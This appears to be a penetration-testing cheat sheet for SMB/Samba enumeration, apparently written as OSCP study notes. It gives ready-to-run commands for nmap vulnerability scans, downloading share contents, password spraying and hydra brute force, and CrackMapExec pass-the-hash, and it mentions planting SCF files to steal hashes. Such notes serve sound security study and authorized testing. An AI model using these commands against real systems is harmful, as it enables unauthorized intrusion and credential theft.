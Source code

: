 # SMB / SAMBA Enumeration

## Checks
- Check for null sessions
- Check the permissions of users you already have
- Check for passwords in files
- Attempt brute force on enumerated users
- Get the password policy using CrackMapExec
- Check for common Windows vulnerabilities (example : MS08-067, MS17-010)
- If Linux, check samba version

## NMAP Scan 
```bash
# General scan
nmap --script=smb-enum-shares.nse,smb-ls.nse,smb-enum-users.nse,smb-mbenum.nse,smb-os-discovery.nse,smb-security-mode.nse,smb-vuln-cve2009-3103.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse $ip -p 445

# Vulnerability scan
nmap --script smb-vuln* -p 445 -oN nmap_smb_vulns.txt $ip
```

## Get Samba version (manual way, using wireshark)
- Setup Wireshark and launch "smbclient -L"  || "smbmap -H"
- Follow TCP stream on a SMB frame

![[Pasted image 20210701215855.png]]

## SMBMAP
```bash
# This command list and try to write to the share folder
smbmap -H <ip> 

# Connect to a remote folder
# If a remote folder has read / write permission:
# insert a scf file -> possibly a way to steal hashes (if an admin connect)
smbmap -H <ip> -u "guestenu”
smbmap -u <user> -p <NTML_hash> -H <ip>
   
# Recursive will get all files inside a share folder
smbmap -u <user> -p <NTML_hash> -H <ip> -R <share_folder>
smbmap -u <user> -p <NTML_hash> -H <ip> --download <path_to_file>
```

## SMBCLIENT
```bash
smbclient -L //<machine>
smbclient //192.168.115.135/helios -U helios
# Allow null authentication
smbclient -N -L //<IP>

# Recursively download a folder
smbclient '\\server\share'
    mask ""
    recurse ON
    prompt OFF
    cd 'path\to\remote\dir'
    lcd '~/path/to/download/to/'
    mget *  
```
#### Note
- Compare to smbmap, smbclient will print the comments describing each share folders (could be useful)
## Mounting and working a SMB share
```bash
sudo mount -t cifs //<ip>/<folder> <local_folder>
sudo mount -t cifs -o "username=toto,password=tutu" //<ip>/<folder> <local_folder>
```


## CrackMapExec
```bash
# List all SMB shares
crackmapexec smb 10.10.10.10. --shares
# If, this doesn't work use try an anonymous authentification
crackmapexec smb 10.10.10.10. --shares -u <random_username> -p <random_password> 

# Getting password policy (anonymous connection) (SMB):
# This is a good way to create a wordlist to bruteforce users passwords.
crackmapexec smb 10.10.10.10 --pass-pol -u "" -p ""
   # Work on old version on Windows 
   # New version of Windows (10) needs authentification

# It is possible to list SMB shares (using anonymous connection): 
crackmapexec smb <IP>
crackmapexec smb <IP> shares -u "" -p ""

# It is possible to try to crack passwords using this commands. This can also be used to leak the computer name and test user password:
crackmapexec smb 10.10.10.10 -u <userlist.txt> -p <password.txt> --continue-on-success

# Crackmapexec can also use a module called <spider_plus>, this module is able to scroll through the smb shares folder and get their content:
crackmapexec smb <IP> -u <username> -p <password> -M spider_plus

# It is also possible to use crackmapexec to execute a “Pass the hash attack” and get code execution:
crackmapexec smb <IP> -u <username> -H LMHASH:NTHASH
crackmapexec smb <IP> -u <username> -H NTHASH
```

#### Notes about crackmapexec
- PWNED means, we can write to the default SMB shares with those credentials
  - This means, we can get get code execution
  - However, if we can't write to those smb shares nothing is lost
  - We can use those creds to connect using WinRM
  - We can also use those creds in order to connect to other SMB shares

## Brute Force SMB
```bash
hydra -l Administrator -P /usr/share/seclists/Passwords/darkweb2017-top100.txt $ip smb -V -f
# In OSCP the passwords are often equal to the username 
hydra -L usernames.txt -P usernames.txt $ip smb -V -f
```
